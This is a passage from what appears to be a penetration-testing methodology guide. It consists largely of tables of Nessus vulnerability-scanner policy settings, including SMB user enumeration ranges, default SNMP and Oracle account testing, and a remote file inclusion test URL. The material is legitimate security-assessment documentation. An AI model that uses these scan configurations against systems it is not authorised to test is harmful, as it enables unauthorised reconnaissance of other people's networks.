+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Nessus SYN scanner**\                                          | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Firewall detection                                                 | Automatic (normal)                                                |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Nessus TCP scanner**\                                          | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Firewall detection                                                 | Automatic (normal)                                                |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **News Server (NNTP) Information Disclosure**\                   | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| From address                                                       | Nessus <listme@listme.dsbl.org>                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Test group name regex                                              | f[a-z]\\.tests?                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Max crosspost                                                      | 7                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Local distribution                                                 | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| No archive                                                         | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Nikto (NASL wrapper)**\                                        | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Enable Nikto                                                       | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Disable if server never replies 404                                | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Root directory                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Pause between tests (s)                                            | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Scan CGI directories                                               | User supplied                                                     |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Display: 1 Show redirects                                          | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Display: 2 Show cookies received                                   | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Display: 3 Show all 200/OK responses                               | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Display: 4 Show URLs which require authentication                  | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Display: V Verbose Output                                          | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Tuning: 1 Interesting File/Seen in logs                            | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Tuning: 2 Misconfiguration / Default File                          | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Tuning: 3 Information Disclosure                                   | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Tuning: 4 Injection (XSS/Script/HTML)                              | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Oracle Settings**\                                             | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Oracle SID                                                         | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Test default accounts (slow)                                       | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **PCI DSS Compliance**\                                          | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Check for PCI-DSS compliance                                       | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Ping the remote host**\                                        | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| TCP ping destination port(s)                                       | Built-in                                                          |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Do an ARP ping                                                     | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Do a TCP ping                                                      | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Do an ICMP ping                                                    | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Number of Retries (ICMP)                                           | 2                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Do an applicative UDP ping (DNS, RPCÖ)                             | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Make the dead hosts appear in the report                           | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Log live hosts in the report                                       | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Test the local Nessus host                                         | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Fast network discovery                                             | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Port scanners settings**\                                      | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Check open TCP ports found by local port enumerators               | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Only run network port scanners if local port enumeration failed    | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **SMB Registry: Start the Registry Service during the scan**\    | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Start the Registry Service during the scan                         | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **SMB Scope**\                                                   | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Request information about the domain                               | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **SMB use domain SID to enumerate users**\                       | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Start UID                                                          | 1000                                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| End UID                                                            | 1200                                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **SMB use host SID to enumerate local users**\                   | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Start UID                                                          | 1000                                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| End UID                                                            | 1200                                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **SMTP settings**\                                               | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Third party domain                                                 | Example.com                                                       |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| From address                                                       | nobody@example.com                                                |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| To address                                                         | postmaster@[AUTO\_REPLACED\_IP]                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **SNMP settings**\                                               | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Community name                                                     | Public                                                            |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| UDP port                                                           | 161                                                               |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SNMPv3 user name                                                   | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SNMPv3 authentication password                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SNMPv3 authentication algorithm                                    | MD5                                                               |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SNMPv3 privacy password                                            | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SNMPv3 privacy algorithm                                           | DES                                                               |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Service Detection**\                                           | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Test SSL based services                                            | Known SSL ports                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Unix Compliance Checks**\                                      | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #1                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #2                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #3                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #4                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #5                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Web Application Tests Settings**\                              | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Enable web applications tests                                      | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Maximum run time (min)                                             | 60                                                                |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Send POST requests                                                 | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Combinations of arguments values                                   | one value                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| HTTP Parameter Pollution                                           | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Stop at first flaw                                                 | Per port (quicker)                                                |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Test embedded web servers                                          | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| URL for Remote File Inclusion                                      | http://rfi.nessus.org/rfi.txt                                     |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Web mirroring**\                                               | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Number of pages to mirror                                          | 1000                                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Maximum depth                                                      | 6                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Start page                                                         | /                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Excluded items regex                                               | /server\_privileges\\.php                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Follow dynamic pages                                               | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Windows Compliance Checks**\                                   | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #1                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #2                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #3                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #4                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #5                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Windows File Contents Compliance Checks**\                     | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #1                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #2                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #3                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #4                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #5                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+

Appendix C - Creating the "Only Safe Checks (Web)" Policy
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

| In order to ensure that all tests are conducted with the same
  criteria, you will need to ensure that you have created a policy
  called "Only Safe Checks (Web)". In order to do this you will need to
  connect to the Nessus server UI, so that you can create a custom
  policy by clicking on the "Policies" option on the bar at the top and
  then "+ Add" button on the right. The "Add Policy" screen will be
  displayed as follows:
|  `Screenshot Here <:File:Penetration_Testing_Execution_163.png>`__
| '''

There are four configuration tabs: General, Credentials, Plugins, and
Preferences. For our purposes, most of the default settings do not need
to be modified.

General
^^^^^^^

The General tab is where we will name and configure scan options related
to our policy. There are six boxes of grouped options that control
scanner behavior: Basic, Scan, Network Congestion, Port Scanners, Port
Scan Options, and Performance.

Basic allows us to define the policy itself. The actual settings have
been defined as indicated below:

+------------------------------------------------+-----------------------------------------------------+
| \ **Basic Section**\                           | \ **Setting**\                                      |
+------------------------------------------------+-----------------------------------------------------+
| Name                                           | Only Safe Checks (Web)                              |
+------------------------------------------------+-----------------------------------------------------+
| Visibility                                     | Shared                                              |
+------------------------------------------------+-----------------------------------------------------+
| Description                                    | | Complete scans not including Denial of Service.   |
+------------------------------------------------+-----------------------------------------------------+
| \ **Scan Section**\                            | \ **Setting**\                                      |
+------------------------------------------------+-----------------------------------------------------+
| Save Knowledge Base                            | Checked                                             |
+------------------------------------------------+-----------------------------------------------------+
| Safe Checks                                    | Checked                                             |
+------------------------------------------------+-----------------------------------------------------+
| Silent Dependencies                            | Checked                                             |
+------------------------------------------------+-----------------------------------------------------+
| Log Scan Details to Server                     | Unchecked                                           |
+------------------------------------------------+-----------------------------------------------------+
| Stop Host Scan on Disconnect                   | Unchecked                                           |
+------------------------------------------------+-----------------------------------------------------+
| Avoid Sequential Scans                         | Unchecked                                           |
+------------------------------------------------+-----------------------------------------------------+
| Consider Unscanned Ports as Closed             | Unchecked                                           |
+------------------------------------------------+-----------------------------------------------------+
| Designate Hosts by their DNS Name              | Unchecked                                           |
+------------------------------------------------+-----------------------------------------------------+
|                                                |                                                     |
+------------------------------------------------+-----------------------------------------------------+
| \ **Network Section**\                         | \ **Setting**\                                      |
+------------------------------------------------+-----------------------------------------------------+
| Reduce Parallel Connections on Congestion      | Unchecked                                           |
+------------------------------------------------+-----------------------------------------------------+
| Use Kernel Congestion Detection (Linux Only)   | Unchecked                                           |
+------------------------------------------------+-----------------------------------------------------+
|                                                |                                                     |
+------------------------------------------------+-----------------------------------------------------+
| \ **Port Scanners Section**\                   | \ **Setting**\                                      |
+------------------------------------------------+-----------------------------------------------------+
| TCP Scan                                       | Checked                                             |
+------------------------------------------------+-----------------------------------------------------+
| UDP Scan                                       | Unchecked                                           |
+------------------------------------------------+-----------------------------------------------------+
| SYN Scan                                       | Unchecked                                           |
+------------------------------------------------+-----------------------------------------------------+
| SNMP Scan                                      | Checked                                             |
+------------------------------------------------+-----------------------------------------------------+
| Netstat SSH Scan                               | Checked                                             |
+------------------------------------------------+-----------------------------------------------------+
| Netstat WMI Scan                               | Checked                                             |
+------------------------------------------------+-----------------------------------------------------+
| Ping Host                                      | Unchecked                                           |
+------------------------------------------------+-----------------------------------------------------+
|                                                |                                                     |
+------------------------------------------------+-----------------------------------------------------+
| \ **Port Scan Options Section**\               | \ **Setting**\                                      |
+------------------------------------------------+-----------------------------------------------------+
| Port Scan Range                                | | 1-65535                                           |
+------------------------------------------------+-----------------------------------------------------+
| \ **Performance Section**\                     | \ **Setting**\                                      |
+------------------------------------------------+-----------------------------------------------------+
| Max Checks Per Host (Windows)                  | 5                                                   |
+------------------------------------------------+-----------------------------------------------------+
| Max Checks Per Host (Linux)                    | 50-75                                               |
+------------------------------------------------+-----------------------------------------------------+
| Max Hosts Per Scan                             | 5                                                   |
+------------------------------------------------+-----------------------------------------------------+
| Network Receive Timeout (seconds)              | 5                                                   |
+------------------------------------------------+-----------------------------------------------------+
| Max Simultaneous TCP Sessions Per Host         | Unlimited                                           |
+------------------------------------------------+-----------------------------------------------------+
| Max Simultaneous TCP Sessions Per Scan         | Unlimited                                           |
+------------------------------------------------+-----------------------------------------------------+

Credentials
^^^^^^^^^^^

The Credentials tab, allows us to configure the Nessus scanner to use
authentication credentials during scanning. For our policy we will not
edit any of the settings within this section. They are however
documented to ensure completeness.

+-------------------------------------------------+--------------------+
| \ **Windows credentials**\                      | \ **Setting**\     |
+-------------------------------------------------+--------------------+
| SMB account                                     | Blank              |
+-------------------------------------------------+--------------------+
| SMB password                                    | Blank              |
+-------------------------------------------------+--------------------+
| SMB domain (optional)                           | Blank              |
+-------------------------------------------------+--------------------+
| SMB password type                               | Password           |
+-------------------------------------------------+--------------------+
| Additional SMB account (1)                      | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB password (1)                     | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB domain (optional)(1)             | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB account (2)                      | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB password (2)                     | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB domain (optional)(2)             | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB account (3)                      | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB password (3)                     | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB domain (optional)(3)             | Blank              |
+-------------------------------------------------+--------------------+
| Never send SMB credentials in clear text        | Checked            |
+-------------------------------------------------+--------------------+
| Only use NTLMv2                                 | Unchecked          |
+-------------------------------------------------+--------------------+
|                                                 |                    |
+-------------------------------------------------+--------------------+
| '''SSH Settings '''                             | \ **Setting**\     |
+-------------------------------------------------+--------------------+
| SSH user name                                   | root               |
+-------------------------------------------------+--------------------+
| SSH password (unsafe!)                          | Blank              |
+-------------------------------------------------+--------------------+
| SSH public key to use                           | Blank              |
+-------------------------------------------------+--------------------+
| SSH private key to use                          | Blank              |
+-------------------------------------------------+--------------------+
| Passphrase for SSH key                          | Blank              |
+-------------------------------------------------+--------------------+
| Elevate privileges with                         | Nothing            |
+-------------------------------------------------+--------------------+
| su login                                        | Blank              |
+-------------------------------------------------+--------------------+
| Escalation password                             | Blank              |
+-------------------------------------------------+--------------------+
| SSH known\_hosts file                           | Blank              |
+-------------------------------------------------+--------------------+
| Preferred SSH port                              | 22                 |
+-------------------------------------------------+--------------------+
| Client version                                  | OpenSSH\_5.0       |
+-------------------------------------------------+--------------------+
|                                                 |                    |
+-------------------------------------------------+--------------------+
| \ **Kerberos configuration**\                   | \ **Settings**\    |
+-------------------------------------------------+--------------------+
| Kerberos Key Distribution Center (KDC)          | Blank              |
+-------------------------------------------------+--------------------+
| Kerberos KDC Port                               | 88                 |
+-------------------------------------------------+--------------------+
| Kerberos KDC Transport                          | UDP                |
+-------------------------------------------------+--------------------+
| Kerberos Realm (SSH only)                       | Blank              |
+-------------------------------------------------+--------------------+
|                                                 |                    |
+-------------------------------------------------+--------------------+
| \ **Cleartext protocols settings**\             | \ **Settings**\    |
+-------------------------------------------------+--------------------+
| User name                                       | Blank              |
+-------------------------------------------------+--------------------+
| Password (unsafe!)                              | Blank              |
+-------------------------------------------------+--------------------+
| Try to perform patch level checks over telnet   | Unchecked          |
+-------------------------------------------------+--------------------+
| Try to perform patch level checks over rsh      | Unchecked          |
+-------------------------------------------------+--------------------+
| Try to perform patch level checks over rexec    | Unchecked          |
+-------------------------------------------------+--------------------+

Plugins
^^^^^^^

The Plugins tab, allows us to choose specific security checks by plugin
family or individual checks that we want to enable. The easiest way to
set this is to select the "Enable All" button from the main Plugins tab,
however this assumes the Safe Checks is selected from the General Tab.

Preferences
^^^^^^^^^^^

The Preferences tab allows for more granular control over scan settings.
All items in this category should be. The actual settings have been
defined as indicated below:

+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Cisco IOS Compliance Checks**\                                 | \ **Setting**\                                                    |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #1                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #2                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #3                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #4                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #5                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| '''Database Compliance Checks '''                                  | \ **Setting**\                                                    |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #1                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #2                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #3                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #4                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #5                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| '''Database Settings '''                                           | \ **Setting**\                                                    |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Login                                                              | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Password                                                           | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| DB Type                                                            | Oracle                                                            |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Database SID                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Database port to use                                               | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Oracle auth type                                                   | NORMAL                                                            |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SQL Server auth type                                               | Windows                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Do not scan fragile devices**\                                 | \ **Setting**\                                                    |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Scan Network Printers                                              | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Scan Novell Netware hosts                                          | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Global variable settings**\                                    | \ **Setting**\                                                    |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Probe services on every port                                       | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| | Do not log in with user accounts not                             | Unchecked                                                         |
| | specified in the policy                                          |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Enable CGI scanning                                                | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Network type                                                       | Mixed (use RFC 1918)                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Enable experimental scripts                                        | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Thorough tests (slow)                                              | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Report verbosity                                                   | Normal                                                            |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Report paranoia                                                    | Normal                                                            |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| HTTP User-Agent                                                    | Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0)   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SSL certificate to use                                             | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SSL CA to trust                                                    | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SSL key to use                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SSL password for SSL key                                           | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **HTTP cookies import**\                                         | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Cookies file                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **HTTP login page**\                                             | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Login page                                                         | /                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Login form                                                         | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Login form fields                                                  | user=%USER%&password=%PASS%                                       |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Login form method                                                  | POST                                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Re-authenticate delay (seconds)                                    | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Check authentication on page                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Follow 30x redirections (# of levels)                              | 2                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Authenticated regex                                                | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Invert test (disconnected if regex matches)                        | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Match regex on HTTP headers                                        | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Case insensitive regex                                             | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **ICCP/COTP TSAP Addressing**\                                   | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Start COTP TSAP                                                    | 8                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Stop COTP TSAP                                                     | 8                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Login configurations**\                                        | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| HTTP account                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| HTTP password (sent in clear)                                      | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| NNTP account                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| NNTP password (sent in clear)                                      | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| FTP account                                                        | Anonymous                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| FTP password (sent in clear)                                       |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| FTP writeable directory                                            | /incoming                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| POP2 account                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| POP2 password (sent in clear)                                      | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| POP3 account                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| POP3 password (sent in clear)                                      | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| IMAP account                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| IMAP password (sent in clear)                                      | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Modbus/TCP Coil Access**\                                      | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Start reg                                                          | 0                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| End reg                                                            | 16                                                                |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Nessus SYN scanner**\                                          | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Firewall detection                                                 | Automatic (normal)                                                |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Nessus TCP scanner**\                                          | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Firewall detection                                                 | Automatic (normal)                                                |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **News Server (NNTP) Information Disclosure**\                   | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| From address                                                       | Nessus <listme@listme.dsbl.org>                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Test group name regex                                              | f[a-z]\\.tests?                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Max crosspost                                                      | 7                                                                 |
